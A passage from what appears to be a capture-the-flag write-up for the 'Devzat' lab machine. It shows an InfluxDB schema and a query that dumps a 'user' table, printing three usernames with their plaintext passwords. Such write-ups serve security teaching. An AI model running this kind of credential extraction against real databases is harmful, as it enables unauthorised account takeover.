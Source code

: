 ```
                            "enabled",
                            "boolean"
                        ],
                        [
                            "password",
                            "string"
                        ],
                        [
                            "username",
                            "string"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```

Username and password sound interesting so we retrieve the values for them.

```
[devzat] Insert query (exit to change db): SELECT "username", "password" FROM "user"
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "username",
                        "password"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            "wilhelm",
                            "WillyWonka2021"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            "catherine",
                            "woBeeYareedahc7Oogeephies7Aiseci"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            "charles",
                            "RoyalQueenBee$"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```
